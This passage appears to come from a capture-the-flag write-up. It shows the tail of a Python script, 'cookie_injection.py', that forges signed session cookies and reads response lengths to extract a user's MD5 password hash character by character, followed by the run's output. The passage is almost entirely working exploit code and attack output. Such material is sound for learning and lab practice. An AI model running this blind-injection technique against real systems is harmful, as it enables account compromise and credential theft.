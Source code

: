 ```python
            )
            if data_cookie_match and signature_cookie_match:
                session_cookie = data_cookie_match.group(1).strip()
                session_sig = signature_cookie_match.group(1).strip()

            # TODO: Why does this happen?
            # Remove the trailing \x1b
            session_cookie = "".join([c for c in session_cookie if c.isprintable()])
            session_sig = "".join([c for c in session_sig if c.isprintable()])

            cookies = {
                "download_session": session_cookie,
                "download_session.sig": session_sig,
            }
            # print(cookies)

            response = requests.get(
                url=url, cookies=cookies, proxies=proxies, verify=False
            )
            response_length = response.headers["Content-Length"]

            if response_length != "2175":
                print(f"Partial: {temp_pass}")
                password += char
                break

    print(f"Final password: {password}")


except Exception as e:
    print(f"Exception raised: {e}")
```

When the script complete its 32 iterations, I get the Wesley's MD5 password hash.

```bash
> python cookie_injection.py
Partial: f
Partial: f8
Partial: f88
Partial: f889
Partial: f8897
Partial: f88976
Partial: f88976c
Partial: f88976c1
Partial: f88976c10
Partial: f88976c10a
Partial: f88976c10af
Partial: f88976c10af6
Partial: f88976c10af66
Partial: f88976c10af669
Partial: f88976c10af6691
Partial: f88976c10af66915
Partial: f88976c10af669159
Partial: f88976c10af6691591
Partial: f88976c10af66915918
Partial: f88976c10af669159189
Partial: f88976c10af6691591894
Partial: f88976c10af66915918945
Partial: f88976c10af66915918945b
Partial: f88976c10af66915918945b9
Partial: f88976c10af66915918945b96
Partial: f88976c10af66915918945b967
Partial: f88976c10af66915918945b9679
```